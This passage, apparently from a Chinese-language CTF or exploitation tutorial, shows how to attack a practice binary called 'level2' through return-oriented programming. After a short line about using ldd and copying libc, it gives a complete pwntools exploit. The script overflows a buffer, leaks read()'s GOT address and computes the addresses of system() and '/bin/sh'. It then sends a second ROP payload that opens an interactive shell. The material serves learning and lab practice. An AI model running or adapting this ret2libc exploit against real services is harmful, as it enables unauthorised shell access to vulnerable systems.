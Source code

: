 使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址。

![Alt](img/x86_ROP13.png)

exp:

```python
    #!/usr/bin/python
    from pwn import *

    libc = ELF('./libc.so')
    elf = ELF('./level2')

    # p = remote('172.17.0.2',10001)
    p = process('./level2')

    plt_write = elf.symbols['write']
    log.info("plt_write=%#x",plt_write)

    # got_write = elf.got['write']
    # log.info("got_write=%#x",got_write)

    got_read = elf.got['read']
    log.info("got_read=%#x",got_read)

    vulfun_addr = 0x804843b

    # payload1 = 'A'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) + p32(got_write) + p32(4)
    payload1 = 'A'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) + p32(got_read) + p32(4)

    print "\n###sending payload1 ...###"
    p.send(payload1)

    # print "\n###recving write() addr ...###"
    # write_addr = u32(p.recv(4))
    # log.info("write_addr=%#x",write_addr)

    print "\n###recving read() addr ...###"
    read_addr = u32(p.recv(4))
    log.info("read_addr=%#x",read_addr)


    print "\n###calculating system() addr and \"/bin/sh\" addr ...###"
    # system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
    system_addr = read_addr - (libc.symbols['read'] - libc.symbols['system'])
    log.info("system_addr=%#x",system_addr)
    # bin_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
    bin_addr = read_addr - (libc.symbols['read'] - next(libc.search('/bin/sh')))    # next用于返回search的结果
    log.info("bin_addr=%#x",bin_addr)

    payload2 = 'A'*140 + p32(system_addr) + p32(vulfun_addr) + p32(bin_addr)

    print "\n###sending payload2 ...###"
    p.send(payload2)

    p.interactive()
```
